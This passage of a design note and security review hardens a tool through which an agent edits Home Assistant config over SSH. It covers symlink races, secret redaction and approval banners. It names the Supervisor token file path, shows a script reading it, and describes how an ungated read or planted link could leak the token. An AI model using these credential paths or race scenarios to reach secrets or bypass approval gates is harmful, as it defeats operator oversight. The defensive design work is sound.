          $0 = substr($0, 1, p - 1) "***" substr($0, p + length(s[i]))
      print }'
}
```

The values are read inside `awk`, never passed on a command line, so they do
not appear in the add-on's process list, and no `secrets.yaml` is copied. The
caller is always a pipe: `printf '%s\n' "$out" | redact`. The same function
wraps the check phase of the write, the check phase of the restore and the
whole of `ha_config_check`.

**AC1 — the file argument.** The earlier copy passed `"\$1"` inside the
`sh -c` body: the inner shell handed awk the *literal* name `$1`, awk could
not open it, and the check output was lost (not leaked, but gone). Only awk
fields need escaping (`\$0`); a shell argument must stay `"$1"`. Reading
stdin removes the argument entirely, so the class of bug cannot come back,
and the tests assert that a **non-secret line survives** redaction.

**AC2 — no check-output file.** The old block wrote
`> "$dir/.eshu-check.$$"`: a predictable name inside the config directory,
created without `set -C`, so a link planted there would be written through as
root (the Z4 hole, one level down). The output is now captured in a variable
and piped into `redact`; nothing is created in the config directory. The
variable is capped (the check output is at most 64 KiB, the same bound the
call row keeps), and the cap is applied **after** redaction (AE1; an earlier
copy of this paragraph said "before", which AE1 reversed).

Every value from every file is collected (a union), not first-match: a value
quoted in the output could come from either definition. Over-redaction of the
check output is acceptable; an unredacted value is not.

Tests: a stub `ha` echoes a synthetic secret and an ordinary line; `***`
appears, the ordinary line **survives unchanged** (AC1), and the value appears
in no tool response, call row or audit row (the tail is the redacted text).
**AB1:** a file under `packages/net/` whose only `secrets.yaml` is the root
one is redacted, and the root file is read even when the file's own directory
has none. **AB2:** a block-scalar certificate's lines are redacted; a
3-character value is not (documented limit), and a 4-character one is.
**AC2:** no file is created in the config directory during a check (the
test watches the directory), and a planted link at the old
`.eshu-check.<pid>` name is never written through. **AE1:** the check pipeline
runs under `dash` and BusyBox `sh` (the W5 matrix), so the bash-only substring
form could not have passed, and a secret placed so that it **straddles byte
65 536** leaves no prefix of itself in the returned output (redaction runs
before the cut).

#### Z3 — the banner also covers what a file can make HA reveal or run

The H4 risky-key banner stays and widens:

* **New `!secret` references.** The preflight collects every `!secret <name>`
  in the proposed content and every one in the current file, and lists the
  names that are **new** as "can expose these secret values through the HA
  API". A value placed in a field the API returns (a name, an attribute) would
  otherwise undo H1 by making the value readable through ordinary read tools.
* **`!env_var` is refused** outright (`config_env_var_refused`) before
  approval. HA Core's environment holds its Supervisor token, and HA OS
  installs have no common need for the tag.
* **Admin power.** F10's S-b red line (`⚠ Admin power: this config write can
  define an action that calls any Supervisor (hassio.*) service.`) is shown
  when **any** of these hold:
  * the basename is `automations.yaml`, `scripts.yaml` or `scenes.yaml` (their
    top level is a list, so the key scan sees nothing);
  * the top-level key scan finds `automation` or `script`;
  * the text contains `hassio.` anywhere;
  * H4's risky keys are present (the existing list).

The scan stays structural and key-name-only (no PyYAML); the `!secret` and
`!env_var` tags are collected from the same top-level walk plus a literal scan
for the tag names, which is safe because they are tag words, not values.

Tests: a new `!secret` name is listed and an unchanged one is not;
`!env_var` is refused with `config_env_var_refused`; each of the four
admin-power triggers shows the red line (including `automations.yaml` with no
keys at all, and a `hassio.` buried in a block scalar).

#### Z4 — nothing is written through a name that was checked earlier

`cp -p` onto a name that was checked opens that name again: a symlink planted
between the check and the write is followed, as root. Rules, in both scripts:

* **every new file is created noclobber** — `set -C` and `cat < src > new`,
  which refuses an existing name or a link as well as `[ ! -e ] && [ ! -L ]`;
* the mode and owner come from `stat -c` on the source file (W2's lines), never
  `cp -p`;
* **every change to `"$real"` is `mv -f` of a new file in the same
  directory** — `mv` replaces the directory entry and never follows it;
* `"$tmp"` (the write) and the restore's rollback are that kind of file;
* the restore's rollback is `mv -f "$tmp" "$real"`: `$tmp` already holds the
  content from before the restore.

The final scripts are at the end of this section.

Test: a stub `ha` plants a symlink to a sentinel at `$real` after the
preamble; the write and the restore each end with `$real` replaced by their
own file (checked by content and by `[ ! -L ]`), and the sentinel is
unchanged. Both fail on the `cp`-based scripts.

#### Z5 — the check record names the HA integration

F10 reads `ha_check_config_<name of its ha integration>`; F11 runs on an
`ha_ssh` row with its own name, so "clear before write" would delete a key
F10 never reads and leave the old `valid` standing.

* The `ha_ssh` row gets an operator-set `config_json.ha_integration`, set at
  setup and editable only by the operator. It is validated as the name of an
  **existing integration of kind `ha`**; an unknown name, a disabled one or a
  non-`ha` kind refuses the save (`config_ha_integration_invalid`).
* It is **never a tool argument**: `ha_config_*` take a path/backup/content
  only, and an argument with that name is rejected by the tool's parameter
  list.
* H5's clear-before-write, and the post-write check's `valid`, use exactly
  `ha_check_config_<config_json.ha_integration>` — the same key F10's
  `ha_core_restart` reads.
* A write or restore with the binding unset is refused
  (`config_ha_integration_unset`) before any connection; `list`/`read` still
  work, so the operator can see the tree while fixing the setup.

Test: after a write, `ha_core_restart` refuses with `ha_check_config_stale`
until a check passes; after the post-write check, it is accepted; a write with
the binding unset is refused and opens no connection.

#### Z6–Z9 (folded; the feature reviewer checks these)

* **Z6 — checks inside the scripts.** Every script refuses a `secrets.yaml`
  basename (exit 19) and requires `*.yaml`/`*.yml`; the dashboard refuses
  `secrets.yaml` at **any depth** (HA also looks for one next to an included
  file); every script starts with
  `PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH`; the command is sent as
  `/bin/sh -c` with every part `shlex.quote`d, because root's login shell on
  the add-on would otherwise run the string first.
* **Z7 — restrict the key line.** The `authorized_keys` line Eshu asks for is
  `from="<dashboard address>",restrict`, or, if the add-on rejects
  `restrict`, `no-port-forwarding,no-agent-forwarding,no-X11-forwarding,no-pty`.
  Without it a port forward from the add-on reaches the Supervisor's network.
  The setup doc records which form the add-on accepts, **and says to remove
  personal keys from the add-on's `authorized_keys`** (or restrict them the
  same way) once Eshu's key is in place: a leftover operator key with no
  `from=`/`restrict` keeps the same reach and bypasses everything here.
* **Z8 — settable state is invalidated.** `config_json.root_checked` and the
  pin's confirmed flag are cleared whenever host, port, user or key changes;
  `ssh_user` must match `^[a-z_][a-z0-9_-]{0,31}$`; the host is an IP or a
  plain hostname that does not start with `-`.
* **Z9 — "ok" means exit 0 and the last line.** A write succeeds only on exit
  0 **and** a last line `ok <64 hex>` that equals the SHA-256 of the content
  the engine sent. The output is never scanned for `ok`: the check output
  comes first and the file can put anything in it. Round 8 (AH) amends this:
  the status line is the **last line** of the response, a blank line may
  precede it when the check output was cut, and the parser takes the final
  line rather than the first one that starts with `ok`.

#### Gating

`ha_config_write` and `ha_config_restore` are `always_gate` and stay out of
`PLAN_COVERABLE_TOOLS`. With F10's K1, **`ha_config_write` is in
`DRY_RUN_HANDLERS`** and its dry run opens only a read (Z1) and never a
write; `ha_config_restore` is **not** in that set. Test: a restore with
`dry_run: true` still queues a card.

#### Open questions

* **Q2 (pin):** an explicit pin at setup is the default; TOFU is allowed but
  the pin stays **unconfirmed** until the operator confirms the fingerprint on
  the card, and a write or restore requires a **confirmed** pin
  (`ssh_host_unconfirmed`). Reads may run on an unconfirmed pin, so the first
  connection can be a `list`.
* **Q4 (pruning):** approved under the note's four conditions — the basename
  is a positional argument and never part of the script text; the find is
  `find "$dir" -maxdepth 1 -type f -name …` so links are skipped; it runs only
  after exit 0; and it never touches the backup this write just made.

#### The write and restore scripts, final

```bash
# WRITE_SCRIPT — one connection, `set -eu`, BusyBox- and GNU-compatible.
# Exit codes: 10/11 not the HA config tree, 12 missing file, 13
# symlink/escape, 14 hash changed, 15 backup failed, 16 write failed, 17 move
# failed, 18 check failed and the backup was moved back, 19 bad argument,
# 20 token file missing, 21 hard link. 1 is a failed rollback.
sh -c '
set -eu
PATH=/usr/bin:/bin:/usr/sbin:/sbin; export PATH
path=$1; expect=$2; backup=$3; tmp=$4

case "$path"   in /*) ;; *) exit 19 ;; esac
case "$backup" in /*) ;; *) exit 19 ;; esac
case "$tmp"    in /*) ;; *) exit 19 ;; esac
case "$path" in *.yaml|*.yml) ;; *) exit 19 ;; esac
[ "$(basename "$path")" != secrets.yaml ] || exit 19

token_file=/run/s6/container_environment/SUPERVISOR_TOKEN
[ -r "$token_file" ] || exit 20
SUPERVISOR_TOKEN=$(cat "$token_file") || exit 20

real=$(realpath "$path") || exit 12
[ -f "$real" ] || exit 12
[ ! -L "$real" ] || exit 13                       # Z1: never a link
[ "$(stat -c %h "$real")" = 1 ] || exit 21        # Z1: nor a hard link
dir=$(dirname "$real")
[ -d "$dir" ] || exit 11
case "$dir" in
  /homeassistant|/homeassistant/packages|/homeassistant/packages/*) ;;
  *) exit 11 ;;
esac
[ "$(realpath "$(dirname "$path")")" = "$dir" ] || exit 13
[ "$(basename "$real")" = "$(basename "$path")" ] || exit 13
[ "$(basename "$real")" != secrets.yaml ] || exit 19

case "$backup" in
  "$real".eshu-[0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9][0-9].bak) ;;
  *) exit 19 ;;
esac
case "$tmp" in "$real".eshu-tmp-*) ;; *) exit 19 ;; esac
[ "$(dirname "$backup")" = "$dir" ] || exit 19
[ "$(dirname "$tmp")" = "$dir" ] || exit 19
[ ! -e "$backup" ] && [ ! -L "$backup" ] || exit 19
[ ! -e "$tmp" ] && [ ! -L "$tmp" ] || exit 19

[ "$(sha256sum "$real" | cut -d" " -f1)" = "$expect" ] || exit 14

# Z4: new files are created noclobber; the target changes only by mv.
set -C
cat "$real" > "$backup" || { set +C; rm -f "$backup"; exit 15; }
cat > "$tmp" || { set +C; rm -f "$tmp"; exit 16; }
set +C
chmod "$(stat -c %a "$real")" "$backup" "$tmp" || exit 16
chown "$(stat -c %u:%g "$real")" "$backup" "$tmp" 2>/dev/null || true
mv -f "$tmp" "$real" || exit 17

# Z2/AB1/AC1/AC2: redact() is the function from Z2, reading stdin. It is
# inlined into the three script constants; inside `sh -c '...'` only the awk
# fields are escaped (`\$0`) — the earlier copy also escaped `\$1`, which
# handed awk a literal file name and lost the output. There is no file
# argument now, and nothing is created in the config tree.
#
# Z2/Z9/AE1: the check runs with only the token, its output is captured in a
# variable and piped through `redact` **then** `head -c`. The cap is portable
# (`${out:0:65536}` is bash-only: dash and BusyBox ash reject it, and under
# `set -e` that killed the script before the rollback) and it applies after
# redaction, so a secret straddling the boundary cannot leave its prefix.
crc=0
out=$(SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1) || crc=$?
printf '%s\n' "$out" | redact | head -c 65536
if [ "$crc" -ne 0 ]; then
  # Z4: roll the backup in by mv, never by cp onto "$real".
  rb="$real.eshu-tmp-rb-$$"
  set -C; cat "$backup" > "$rb"; set +C
  mv -f "$rb" "$real" || exit 1
  exit 18
fi
printf "ok %s\n" "$(sha256sum "$real" | cut -d" " -f1)"
' _ "$path" "$expect" "$backup" "$tmp"
```

`RESTORE_SCRIPT` keeps the same preamble (absolute arguments, Z6's basename
and extension checks, the token, `realpath`, `-f`, no `-L`, link count 1, the
accepted directory, basename equality), then: `[ -f "$backup" ] && [ ! -L
"$backup" ] || exit 19` plus its own link-count check (X1/Z1); create `"$tmp"`
noclobber with the pre-restore content; create the restore file noclobber with
`cat "$backup" > "$rb"`, copy the mode/owner with `stat -c`, `mv -f "$rb"
"$real"`; run the check into a variable and pipe it through
`redact | head -c 65536` (AC2/AE1 — the restore writes no check file either,
`redact` reads stdin, and the cap is portable and comes after redaction); on failure
`mv -f "$tmp" "$real"` (exit 18, or exit 1 if that fails). The `ok` line is
the backup's hash, computed before the restore and checked again after it, so
a restore that somehow moved different bytes does not report ok.
`ha_config_check` uses the same capture-then-redact shape in its own script.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 428.03s (0:07:08)` (docs only).

### Reviewer notes

**Design round 1 (2026-11-09): approved in direction, changes requested.**
Fixed templates, pin-before-write, hash re-check and auto-restore are the
right shape. Fold these into a "Round 2" section. Then it goes to the
security reviewer.

* **H1 (must): secrets must never pass through the dashboard in clear.**
  Masking "on the dashboard" after `cat` means the integration-call row's
  8 KiB output tail, the `dry_run` diff and the approval card all see raw
  values. Rules: `secrets.yaml` is **read-masked remotely** (a fixed template
  that prints key names only; values never leave the add-on), **write and
  restore of `secrets.yaml` are refused**, and `read`/`dry_run` output is
  **never stored** in the call row (store size and hash only). Test that a
  synthetic secret value appears in no DB row, audit row or response.
* **H2 (must): one remote script per write, not five SSH calls.** realpath,
  hash check, backup, temp write, `mv` and `ha core check` are currently
  separate connections, each with its own gap. Make write (and restore) a
  single fixed `sh -c '<constant script>' _ "$path" "$expect" "$backup"
  "$tmp"` with content on stdin. The script checks realpath, then
  sha256 == expect, then backs up, writes and moves, all in one process,
  and returns a structured status line. The dashboard still checks the path
  first. Use `set -e` and an explicit status per step, so a failure says
  which step failed.
* **H3 (must): verify the `/config` path on a real add-on.** In current
  versions of the SSH add-on, HA's config lives at `/homeassistant`, and
  `/config` may be a symlink to it. Then `realpath(/config/x.yaml)` never
  equals the requested path, and every call is refused. Compare against
  `realpath` of the **root** plus the relative remainder, not the literal
  string, and state which add-on version the note assumes.
* **H4 (must): flag risky config in the approval card.** Writing YAML is
  code execution on HA. `shell_command`, `command_line`, `python_script`,
  `rest_command`, `http:` (trusted proxies, auth), `homeassistant: auth_providers`,
  `packages`, and any `!include*` path outside `/config` should get a
  high-risk banner in the preflight summary. Keep it as a parsed-YAML key
  check, not a regex over text. It does not block, but the operator must
  see it.
* **H5 (must): invalidate the shared F10 meta key on every write.** Clear
  `ha_check_config_<integration>` **before** the write starts. Only the
  post-write check may set it to `valid`. Otherwise a `valid` from 9
  minutes ago (before the edit) lets `ha_core_restart` through on an
  unchecked file, for example when the post-write check times out.
* **H6 (should): timeouts and concurrency.** `ha core check` often takes
  over 30 s on a Pi. Give `check` its own timeout (120 s), and treat a
  timeout as **failed**: restore. Add a per-integration lock so two
  approved writes cannot interleave.
* **H7 (should): restrict the key on the add-on side.** Document a
  `from="<dashboard address>"` prefix on the `authorized_keys` line, like
  F12's open question 2. Check that the add-on's `authorized_keys` option
  keeps key options. Also say where the private key sits at rest: the
  integration `secret` column, and whether that is encrypted.
* **H8 (nit):** in the `list` template, the Python string `'\('` is an
  invalid escape (a SyntaxWarning on 3.12). Use a raw string or `[(]`. Also
  `-maxdepth` after `-o` warns. Use one `find /config -maxdepth 1 -type f
  \( -name '*.yaml' -o -name '*.yml' \)`.

**Open questions:**
1. The dashboard generates the key; pasting stays possible.
2. Prefer an explicit pin at setup, with TOFU only if the operator ticks
   "trust on first use". Leave the final call to the security reviewer.
3. root is acceptable with protection mode on and LAN only, plus H7.
4. Prune after a successful write, with a fixed template and no agent
   input, keeping the last 10.

**Security gate:** after Round 2, the security reviewer reviews the design
(§ 2.6a). F11 code waits for F10 and F12 to be merged.

**Design round 2 (2026-11-10, `a163811`): approved in direction, four points
before the security review (U1–U4).** H1, H3, H4, H5 and H7 are done well:
* secrets stay on the add-on;
* the root-relative realpath works with `/config` as a symlink;
* there is a risky-key banner;
* the check key is cleared before a write;
* the key is honestly called plaintext at rest.

H2's single script is the right shape.

* **U1 (must): the remote side must finish first.** With no pty, killing the
  SSH client at 120 s does not stop the remote `sh`. It keeps running
  `ha core check` and may restore later, while the dashboard's own "restore
  with the short timeout" runs at the same time: two writers on one file.
  Run the check *inside* the script under a shorter remote bound
  (`timeout 100 ha core check`, which the add-on's coreutils or BusyBox
  supports), so the script always restores and exits itself before the
  dashboard's 120 s. The dashboard never restores on its own after a
  timeout. It reports `config_state_unknown` with the backup name, and the
  per-integration lock stays held until a follow-up `sha256` read shows which
  content is in place.
* **U2 (must): list and write must agree on packages.** `list` walks
  `/homeassistant/packages` recursively, but the write script accepts only a
  directory equal to `/homeassistant` or `/homeassistant/packages`. A file in
  `packages/net/x.yaml` is listed but every write is refused. Either allow
  any directory **under** `/homeassistant/packages/` (the case pattern
  `/homeassistant/packages|/homeassistant/packages/*`, with the same
  basename-equality rule), or list `packages` with `-maxdepth 1`. I prefer
  the first, because split packages are common.
* **U3 (must): check every argument in the script, and map unknown exits.**
  The script trusts `$backup` and `$tmp`. Require both to be in the same
  directory as `$real`, to match the `.eshu-` name patterns, and not to
  exist yet (`[ ! -e ]`). Any exit code outside 10–18, including a failed
  restore inside the `|| { … }` group, which `set -e` turns into the `cp`
  status, maps to `config_state_unknown`, with the backup name. It is never
  reported as ok or as a clean failure.
* **U4 (should): keep the file's mode and owner.** `cat > "$tmp"` creates the
  file with the add-on's umask, so `mv` can change the mode of the target.
  Use `chmod --reference="$real" "$tmp"` (and `chown --reference`) before the
  `mv`, or create the temp file under `umask 077` and then copy the mode.

After U1–U4, to the security reviewer (§ 2.6a), with H1, H2/U1/U3 and H4 as
the points to check.

**Design round 3 (feature reviewer, 2026-11-10): approved in direction, one
check before the security review (V1).** U1–U4 are right:
* the remote `timeout 100` restores before the client gives up;
* the dashboard never restores on its own, and the lock is held until a
  hash read;
* subdirectories under `packages/` are accepted, `packages-old` is not;
* `$backup` and `$tmp` are checked (same directory, name patterns, must not
  exist), and every exit outside 10–18 maps to `config_state_unknown`;
* the file mode is kept.

* **V1 (must): the script must run on the add-on's userland.** The Advanced
  SSH & Web Terminal add-on is Alpine-based, and the script uses GNU-only
  forms:
  * `realpath -e`: BusyBox `realpath` takes no options;
  * `chmod --reference` and `chown --reference`: BusyBox has neither.

  If the add-on only has BusyBox versions, every write exits 12 or 16:
  safe, but F11 would never work. Either confirm on a real add-on that GNU
  coreutils is installed (`realpath --version`, `chmod --version`), and
  write the version into the setup doc as a precondition the dashboard
  checks once on the first `list`. Or use forms that work under both:
  * `readlink -f` plus an existence check;
  * `chmod "$(stat -c %a "$real")"` and `chown "$(stat -c %u:%g "$real")"`.

  `timeout 100` works in both.

**Design round 4 check (feature reviewer, 2026-11-10): V1 answered on a real
add-on.** The operator ran read-only checks in the Advanced SSH & Web Terminal
add-on's web terminal (Home Assistant OS; BusyBox v1.37.0 userland). Results:

| Check | Result on the add-on |
|---|---|
| `realpath --version`, `chmod --version`, `readlink --version`, `stat --version` | all BusyBox; no GNU coreutils |
| `realpath <existing>` / `realpath <missing>` | prints the path / `No such file or directory`, exit 1 |
| `readlink -f <missing>` | no output, exit 1 |
| `realpath --version` | `realpath: --version: No such file or directory`: BusyBox `realpath` parses **no options at all**, not even `--` |
| `stat -c '%a %u:%g'` on `configuration.yaml` | `644 0:0` |
| `cp -p` then `stat -c` on the copy | `644 0:0` (kept) |
| `timeout 2 sleep 5` | killed; exit **143**, not GNU's 124 |
| `sha256sum`, `mktemp`, `command -v ha` | work; `ha` is `/usr/bin/ha` |
| `ls -ld /config` | `/config -> /homeassistant` (a symlink) |
| `realpath /config/configuration.yaml` | `/homeassistant/configuration.yaml` |
| `find /config -maxdepth 1 -type f` | **nothing**: `find` does not follow a symlinked start point |
| `find /config/ -maxdepth 1 -type f` | lists the files |

So V1's first option (GNU coreutils as a precondition) is out. Use forms that
work under both BusyBox and GNU:

* **W1 (must): no `realpath -e`, and no `--` for `realpath`.** BusyBox
  `realpath` treats `-e` and `--` as file names, so `realpath -e -- "$path"`
  fails on every call (exit 12, F11 never works). Instead, reject any
  argument that is not absolute **first** (`case "$path" in /*) ;; *) exit
  19 ;; esac`, the same for `$backup` and `$tmp`), then call
  `realpath "$path"` with no options, and add an explicit `[ -f "$real" ]`.
  GNU `realpath` without `-e` succeeds on a missing last component; BusyBox
  does not; the `-f` test makes both refuse. The same for the directory:
  `[ -d "$dir" ]`. With every argument known to start with `/`, drop `--`
  from the other calls as well (`dirname`, `basename`, `sha256sum`, `cp`,
  `mv`, `rm`), so the script does not depend on which BusyBox applets parse
  options.
* **W2 (must): copy mode and owner with `stat -c`.**
  `chmod "$(stat -c %a "$real")" "$tmp" || exit 16` and
  `chown "$(stat -c %u:%g "$real")" "$tmp" 2>/dev/null || true`. Both are
  confirmed above.
* **W3 (should): do not key anything on exit 124.** BusyBox `timeout`
  reports a kill as 143 (137 with `-k`). The script already folds every
  failure of `timeout 100 ha core check` into exit 18 after restoring, which
  is right; keep it that way. Any test stub or dashboard message that tells
  "timed out" from "check failed" must accept 124, 137 and 143.
* **W4 (must): never start `find` at the `/config` symlink.** The list
  template already uses `/homeassistant` (round 2), and that stays. Add a
  test that the list template contains no `find /config ` without the
  trailing slash, and say in the setup doc that `/config` is a symlink to
  `/homeassistant` on this add-on (confirmed 2026-11-10, BusyBox 1.37.0).
  The round 2 root-relative check (H3) is confirmed correct:
  `realpath(dirname(/config/x.yaml))` is `/homeassistant`.
* **W5 (must): test the scripts under BusyBox.** Add `busybox` to the CI
  apt packages. Add a test that runs the write and restore scripts with
  `busybox sh` and a `PATH` that holds only BusyBox applet links (`realpath`,
  `readlink`, `stat`, `chmod`, `chown`, `cp`, `mv`, `rm`, `cat`, `sha256sum`,
  `cut`, `dirname`, `basename`, `timeout`, `printf`) plus a stub `ha`.
  Because the root `/homeassistant` cannot be created in CI, the test may
  substitute a temp root into the **test's copy** of the script text; the
  shipped constant keeps `/homeassistant`. Run the same cases under GNU
  too. Skip the BusyBox run with a clear reason if `busybox` is missing
  locally, but CI must run it. Cases: a good write, a missing file (12), a
  relative path (19), a symlinked file (13), a 0640 file staying 0640, and a
  stub `ha` that sleeps past a short bound (restores, exit 18).

After W1–W5 the design goes to the security reviewer, as round 3 said.

**Design round 4 (feature reviewer, 2026-11-10, `67b5373`): W1–W5 are right;
two points before the security review (W6, W7).** The argument order, the
BusyBox-only `realpath`, the `stat -c` mode copy, the 18-for-every-check-failure
rule, the `/homeassistant` list template and the BusyBox CI matrix all hold.
Running the script under `busybox sh` while writing the note is exactly the
right check.

* **W6 (must): `[ ! -e ]` does not catch a dangling symlink.** `test -e`
  follows symlinks, so a symlink planted at the backup or temp name whose
  target does not exist passes `[ ! -e "$backup" ]` / `[ ! -e "$tmp" ]`. Then
  `cp -p "$real" "$backup"` and `cat > "$tmp"` follow it and write, as the
  SSH user (root on the add-on), to wherever it points. U3's stated purpose
  ("a symlink planted at the temp name") is therefore not met. Anything that
  can write into the HA config tree can plant one (an integration, another
  add-on with `config:rw`, a mistaken automation). Fix, in the write **and**
  restore scripts:
  * `[ ! -e "$x" ] && [ ! -L "$x" ] || exit 19` for `$backup` and `$tmp`
    (BusyBox `test` has `-L`);
  * `set -C` (noclobber) before `cat > "$tmp"`, so the open itself refuses
    an existing name, as a second layer;
  * the restore script's "copy the current file to `$tmp`" step gets the
    same checks.

  Test, both userlands: a dangling symlink at the backup name and at the
  temp name each give exit 19, and the symlink's target is never created.
* **W7 (must, an operator check before code): does `ha` work over a
  non-interactive SSH command?** The operator's check ran `ha` in the add-on's
  web terminal, an interactive login shell. F11 runs `sh -c '…'` as an SSH
  command, which does not read the login profile, and the `ha` CLI needs the
  Supervisor token from the environment. If it is missing there, every
  `ha core check` fails, every write is restored (safe) and F11 never
  works. The operator runs one read-only command from a LAN machine with the
  add-on key; the result goes into the setup doc. If the token is missing,
  the script must load it from a fixed file the add-on provides (named in
  the design, never taken from an argument), not from the dashboard.
* **Nit:** the restore script is described in prose only. Show it in full
  like the write script, since the security reviewer reads the scripts, not
  the prose.

After W6, W7 and the nit, to the security reviewer (§ 2.6a), with H1,
H2/U1/U3/W6 and H4 as the points to check.

**W7 answered (feature reviewer, 2026-11-10), plus W8.** Read-only checks over
a real non-interactive SSH command (`ssh hassio@<ha> '…'`, the add-on key, the
same shape F11 uses), on HA OS with Advanced SSH & Web Terminal:

| Check | Result |
|---|---|
| `SUPERVISOR_TOKEN` in the environment | **unset** |
| `ha core info` | `Error: unauthorized: missing or invalid API token`, exit 1 |
| where the login shell gets it | `/etc/profile.d/homeassistant.sh` (`export SUPERVISOR_TOKEN=…`), not read by a non-interactive command |
| `/run/s6/container_environment/SUPERVISOR_TOKEN` | exists, `root:root 0644` |
| `SUPERVISOR_TOKEN=$(cat that file) ha core info` | exit **0** |
| `id` | `uid=1000(hassio)`, groups `wheel`, `hassio` |
| `/homeassistant`, `configuration.yaml`, `packages/` | `root:root`, **not writable** by `hassio` |
| `sudo -n true` | succeeds (passwordless sudo through `wheel`) |

* **W7 (must): load the token from the fixed s6 file, for the check only.**
  In the write and restore scripts:
  `SUPERVISOR_TOKEN=$(cat /run/s6/container_environment/SUPERVISOR_TOKEN) || exit 20`
  as a local (not exported) variable, then
  `SUPERVISOR_TOKEN="$SUPERVISOR_TOKEN" timeout 100 ha core check 2>&1 || { …restore…; exit 18; }`,
  so only `ha` sees it. The path is a constant in the script, never an
  argument. The token is never printed, never sent to the dashboard, and
  never appears in the integration-call row. Exit 20 (token file missing)
  happens **before** the backup, so nothing is touched; the dashboard maps
  it to `config_ha_token_missing`. Test: a stub `ha` that fails unless
  `SUPERVISOR_TOKEN` equals the content of a temp token file (path
  substituted in the test's copy only); a missing token file gives 20 with
  the target unchanged; a test asserts the token value appears in no
  output, DB row or audit row.
* **W8 (must): F11 must log in as root.** As the add-on ships, the SSH user is
  `hassio`, which cannot write the config tree; every write would fail at
  the backup (15). Open question 3 already chose root (protection mode on,
  LAN only, H7's `from=` restriction). So: the setup doc tells the operator
  to set the add-on's `ssh.username: root`, and the dashboard checks
  `id -u` = 0 once, on the first `list`, refusing with
  `config_ssh_not_root` and a message that names the setting. Do not use
  `sudo -n` from the script instead: it is the same privilege with an extra
  layer that scrubs the environment, and it depends on the add-on's sudoers
  staying as it is. (The `hassio` user has passwordless sudo, so it is
  root-equivalent anyway; `root` only makes that explicit.)

After W6–W8 and the restore-script nit, to the security reviewer (§ 2.6a),
with H1, H2/U1/U3/W6, H4 and W7 (token handling) as the points to check.

**Design round 5 (feature reviewer, 2026-11-10, `8fe03c1`): approved; one line,
then straight to the security reviewer (no further round from me).** W6 (`-L`
plus `set -C`), W7 (token read from the fixed s6 file, only `ha` sees it, exit
20 before anything is touched), W8 (root only, checked at `list`) and the full
restore script are all in.

* **X1 (must, one line):** in the restore script, `[ -f "$backup" ]` follows a
  symlink, so a link planted at the backup name would copy any readable file
  on the add-on into the HA config. Use `[ -f "$backup" ] && [ ! -L "$backup" ]
  || exit 19`, plus a test.

**Security review — design rounds 1–6 (2026-11-10, `273999c`): changes
requested, Z1–Z5 must, Z6–Z9 should.**

The shape is right: fixed scripts, one connection, values kept on the
add-on, a pin before any write, and every unknown exit treated as unknown.
Most of the remaining risk is in the paths that don't write: the read, the
check output, and what an approved file can make HA reveal later.

How the points I was asked to check stand:
* **H1 (secrets stay on the add-on):** right for `secrets.yaml` itself.
  Z2 and Z3 close two other ways the values can leave the add-on.
* **H2/U1/U3/W6/X1 (scripts, arguments, symlinks):**
  * the argument checks are right: absolute first, the same directory, the
    name patterns, `-L` at both names, `set -C`, and X1 at the backup;
  * the remote `timeout` and "the dashboard never restores" are right.
  * Z4 removes the last place where `cp` writes through a name that was
    checked earlier.
* **H4 (risky-key banner):** keep it, and widen it as Z3 says.
* **W7 (the token):** approved:
  * the path is a constant;
  * the token is a plain shell variable, never exported, and only `ha` gets
    it, as a command prefix;
  * exit 20 comes before anything is touched.
  The file is `0644`, so the only thing that keeps an agent from it is the
  read path. That is Z1.
* **W8 (root, checked at list):** approved, with Z8.

Changes:

* **Z1 (must): the read is a single script with the same preamble as the
  write.**
  * §4 still reads with `realpath` and then `cat -- {path}` (or `sed` for
    `secrets.yaml`, and `sha256sum`) as separate steps. Anything that can
    write into the config tree can swap in a symlink between the check and
    the read.
  * The read is not gated. Through that gap it returns any file root can
    read, the Supervisor token file among them. That token has the add-on's
    Supervisor role, which skips every F10 gate.

  Fix: `READ_SCRIPT` and `SECRETS_KEYS_SCRIPT` are constants with the write
  script's preamble:
  * absolute arguments;
  * `realpath` with no options;
  * the accepted directory;
  * the basename equality;
  * `[ -f "$real" ] && [ ! -L "$real" ]`;
  * a link count of 1 (`[ "$(stat -c %h "$real")" = 1 ]`), so a hard link
    to `secrets.yaml` or the token file is refused.

  Then read `"$real"` in the same process, and print the hash of the bytes
  read. Test, in both userlands: a symlink and a hard link to a sentinel file
  are each refused, and the sentinel's content appears nowhere.
* **Z2 (must): the check output can carry secret values.**
  * HA's config validation quotes the offending value, and a value that came
    from `!secret` is already resolved by then.
  * The output of `ha core check` goes back to the agent and into the call
    row's 8 KiB tail. Scrubbing on the dashboard side cannot catch it,
    because the dashboard never knows the values.
  * This applies to the write, the restore and `ha_config_check`.

  Fix: the scripts redact before they print. A fixed `awk` step reads the
  values from `secrets.yaml` on the add-on and replaces each literal
  occurrence in the check output with `***`, using `index()` and not a
  regex. Only then does the output leave the add-on.

  Test: a stub `ha` that echoes a synthetic secret value. The value appears
  in no response, row or audit record, and `***` does.
* **Z3 (must): the banner must also cover what a file can make HA reveal or
  run.**
  * **New `!secret` references.** List every `!secret` name that the
    proposed content references and the current file does not, on the
    banner, as "can expose these secret values". A value placed in a
    field the API returns (a name, an attribute) can then be read through
    the ordinary HA read tools, which undoes H1.
  * **`!env_var` is refused** (`config_env_var_refused`). HA Core's
    environment holds its Supervisor token, and HA OS installs have no
    common need for the tag.
  * **Admin power.** Show F10's S-b red line when any of these hold:
    * the file is `automations.yaml`, `scripts.yaml` or `scenes.yaml` (their
      top level is a list, so the key scan sees nothing);
    * the content has a top-level `automation` or `script` key;
    * the text contains `hassio.`.

  Tests for each.
* **Z4 (must): nothing writes through a name that was checked earlier.**
  * `cp -p … "$backup"`, the write's rollback `cp -p "$backup" "$real"`, and
    the restore's two `cp`s onto `"$real"` and `"$tmp"` all open a name that
    was checked earlier.
  * `cp` follows a symlink planted there in the meantime, writing as root.

  Rules:
  * every new file (backup, temp, second temp) is created with `set -C`
    (`cat < src > new`), so the shell's exclusive create refuses a name
    that exists or is a link;
  * the mode and owner are copied with W2's `stat -c` lines;
  * every change to `"$real"` is a `mv -f` of such a file in the same
    directory. `mv` replaces the directory entry and never follows it;
  * the restore's rollback is just `mv -f "$tmp" "$real"`, because `$tmp`
    already holds the content from before the restore.

  Test: a symlink to a sentinel placed at `$real` after the preamble (a
  stub `ha` can do it) is replaced by the restored file, and the sentinel
